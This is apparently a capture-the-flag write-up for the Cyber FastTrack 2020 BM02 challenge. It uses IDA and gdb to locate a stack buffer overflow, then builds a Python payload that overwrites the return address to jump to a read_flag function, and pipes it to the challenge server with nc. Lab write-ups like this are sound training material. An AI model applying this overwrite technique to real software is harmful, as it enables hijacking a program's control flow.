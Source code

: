 # Cyber FastTrack Spring 2020- BM02 Solution
In this challenge, we use buffer overflow to display the flag.\
BM02_1.PNG ![image info](BM02_1.PNG)
* We use IDA software to display the structure of this program. There are the exploitable(char const*) function and the read_flag(void) function. Also, there are some local variales that stored in the explotable() function. For a better understanding of the program, we need a gdb debugger.\
BM02_2.PNG ![image info](BM02_2.PNG)
* In the terminal, we type `gdb <name of your program>` to start the debugger.
* Type `run` to run the program in the debugger.
* Hold down the Ctrl key and press c
BM02_3.PNG	
* Notice that, in order to enter the exploitable() function, we first need to enter `add_candidate` to add employee and then enter the exploitable() function.
BM02_4.PNG and BM02_5.PNG and BM02_6.PNG
* Enter `disas exploitable(char const*)`
* Enter `c` to continue without paging
* we use break *address to set a break point. In this case, we use 0x5655634d.
* Type `break *0x5655634d`
* Type `run`
* Type `add_candidate`
* Enter one information for each of the First Name, Last Name, and Job Title.
* * In this case, I entered `First` as the First Name, `Last` as the Last Name, and `Title` as the Job Title.
* Then, you will encounter an breakpoint at `Breakpoint 1, 0x5655634d in exploitable(char const*) ()`
BM02_7.PNG
	Enter info frame to get the return address that stored at eip. In this case, the return address is 0x56557492. 
BM02_8.PNG
	Display the current and the next 199 stack pointer.
	Enter x/200x $sp
	The addresses that are 0x00000000 are local variables that we need to fill in before changing the return address. So in a text file, we enter
	print("add_candidate")
	print('A'*20)
	and save it as a python file.
BM02_9.PNG
	Hit Ctrl + c to exit the current program
	Run the program as:
	Type run < <(python bm02.py)
	Type y to start from the beginning
	In order to see the differences, we enter x/200x $sp to display the current and the next 199 stack pointer.
	From BM02_9.PNG, we see that there are 25 0x00000000 remaining for us to fill out and then we have to overwrite the 0xdeadbeef.
	Next, in order for us to change to return address, we need to overwrite the addresses that are before the return address. There are 3 adresses remaining to changes. Then, we changes the return address to 0x5655615d. Remember, we have to write the address in reverse byte order.
	We changes the contents of the python file to:
	print("add_candidate")
	print('A'*120 + '\xef\xbe\xad\xde' + 'A'*12 + '\x5d\x61\x55\x56')
BM02_10.PNG
	Hit Ctrl + c to exit the current program
	Run the program as:
	Type run < <(python bm02.py)
	Type y to start from the beginning
	Enter info frame to see if the return address changed to 0x5655615d.
BM02_11.PNG
	Use si to execute one instruction at a time to see if the program enters the read_flag(void) function.
	We see that the program enters the read_flag(void) function.
BM02_12.PNG
	Use si to execute one instruction at a time and we will see the flag eventually.
BM02_13.PNG
	In order to get the server to response to our request, we also need to print out the last name and the job title, so we edit the python file as below:
	print("add_candidate")
	print('A'*120 + '\xef\xbe\xad\xde' + 'A'*12 + '\x5d\x61\x55\x56')
	print("last name")
	print("job title")
	Send the bm02.py to the server and it would prints out the flag.
	python bm02.py | nc bm02.allyourbases.co 9003





	
